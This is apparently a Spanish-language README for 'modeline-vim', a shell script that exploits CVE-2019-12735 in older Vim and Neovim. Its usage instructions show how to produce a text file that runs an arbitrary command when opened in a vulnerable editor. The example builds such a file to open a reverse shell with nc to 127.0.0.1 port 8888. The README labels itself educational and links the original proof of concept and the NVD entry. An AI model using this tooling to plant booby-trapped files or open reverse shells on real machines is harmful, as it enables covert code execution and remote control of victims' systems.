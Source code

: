 # modeline-vim
_Script con fines educativos que explota la vulnerabilidad de vim._
## Introducción.
_El script aprovecha la vulnerabilidad([CVE-2019-12735](#referencias)) de Vim < 8.1,1365 y Neovim < 0.3.6 que permite ejecutar código dentro de un archivo de texto por medio de modelines al momento de abrirlo. Dicho script fue desarrollado con fines educativos y queda bajo responsabilidad de quien lo usa_
## Instrucciones.
_Se recomienda que se abra con el editor emacs o algún otro editor de texto que sea vim, ya que se ejecuta la vulnerabilidad y distorsiona el archivo :smile:. En caso de que se desea usar vim se debe de desabilitar el modelines (**:set nomodeline**)._

_modeline.sh requiere solamente de un parámetro, el cual tiene que ser un comando con sus respectivos parámetros(opcional)._
```
chmod 700 modeline.sh
modeline.sh _comando_ > archivoTexto.
```
### Ejemplo.
_Se utilizará el comando nc para realizar un shell inverso._
```
modeline.sh nc 127.0.0.1 8888 > datos.txt
```
## Referencias.
[PoC](https://github.com/numirias/security/blob/master/doc/2019-06-04_ace-vim-neovim.md#summary)

[CVE-2019-12735](https://nvd.nist.gov/vuln/detail/CVE-2019-12735)
